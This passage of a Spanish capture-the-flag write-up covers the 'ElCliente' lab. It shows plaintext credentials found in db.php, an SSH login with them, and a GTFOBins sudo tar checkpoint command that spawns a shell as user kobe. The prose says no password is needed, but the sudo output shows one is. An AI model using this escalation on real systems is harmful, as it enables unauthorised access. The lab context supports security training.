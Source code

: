 Dentro del archivo `db.php`, descubro credenciales en texto plano para el usuario `scott`, `scott`:`gp34cb$ka64tfp10!`.

```terminal
bash-5.2$ cat db.php
```

![](assets/img/thl-writeup-elcliente/elcliente4_1.png)

```terminal
/home/kali/Documents/thl/elcliente:-$ ssh scott@arka.thl
scott@arka.thl's password: gp34cb$ka64tfp10!

bash-5.2$ id
uid=1001(scott) gid=1001(scott) groups=1001(scott),100(users)
```

---


El usuario `scott` puede ejecutar `tar` como `kobe` sin necesidad de contraseña.

```terminal
bash-5.2$ sudo -l
Matching Defaults entries for scott on TheHackersLabs-ElCliente:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User scott may run the following commands on TheHackersLabs-ElCliente:
    (kobe) PASSWD: /usr/bin/tar
```

Según [GTFOBins](https://gtfobins.github.io/gtfobins/tar/#sudo), si `tar` se ejecuta con privilegios elevados mediante `sudo`, mantiene estos privilegios y puede ser explotado para escalar privilegios.

Ejecuto el siguiente comando para obtener una shell como `kobe`.

```terminal
bash-5.2$ sudo -u kobe tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

$ id
uid=1000(kobe) gid=1000(kobe) groups=1000(kobe)

$ cat user.txt
```

---